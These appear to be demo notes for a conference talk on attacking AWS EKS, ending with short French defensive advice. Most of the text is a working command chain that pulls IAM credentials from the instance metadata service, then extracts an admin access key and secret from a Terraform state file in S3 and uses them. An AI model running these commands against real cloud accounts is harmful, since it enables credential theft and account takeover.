TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`

# Explore API
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/

# Get name of the role
node_group=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/)

# Get the role
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/$node_group -o creds.json

# Export the body of your response in a json file and save it on your local machine
# Use the python script to obtain the format of the aws credentials
python /tmp/export-credentials-aws.py creds.json

# Get cluster name and API Endpoint
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/user-data


# # Install AWS
# curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
# python -c "import zipfile; zip_ref=zipfile.ZipFile('awscliv2.zip', 'r');zip_ref.extractall('/tmp/')"
# chmod +x ./aws/install
# ./aws/install
# chmod +x /usr/local/bin/aws
# export AWS_PAGER=""

# GO to your machin

# List bucket
aws s3api list-buckets
aws s3 cp s3://devoxx-eks-attack-terraform-backend/poc /tmp/state.json

cat /tmp/state.json| jq '.resources[].name'  | grep admin
cat /tmp/state.json| jq '.resources[] | select (.name == "admin_user_access_key")'



unset AWS_SECRET_ACCESS_KEY
unset AWS_ACCESS_KEY_ID
unset AWS_SESSION_TOKEN
export AWS_ACCESS_KEY_ID=$(cat /tmp/state.json| jq '.resources[] | select (.name == "admin_user_access_key")' | jq -r '.instances[].attributes.id')
export AWS_SECRET_ACCESS_KEY=$(cat /tmp/state.json| jq '.resources[] | select (.name == "admin_user_access_key")' | jq -r '.instances[].attributes.secret')

aws iam list-users

# Delete the key to prevent exploitation
aws iam delete-access-key --access-key-id "<key>" --user-name admin-test
....


Pour se défendre --> Falco
https://falco.org

imds v2 pour éviter plusieurs risques de sécu: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html

Pas de containers priviligés melangés avec des containers non priviligiés
Les mettre sur des nodes dédiés

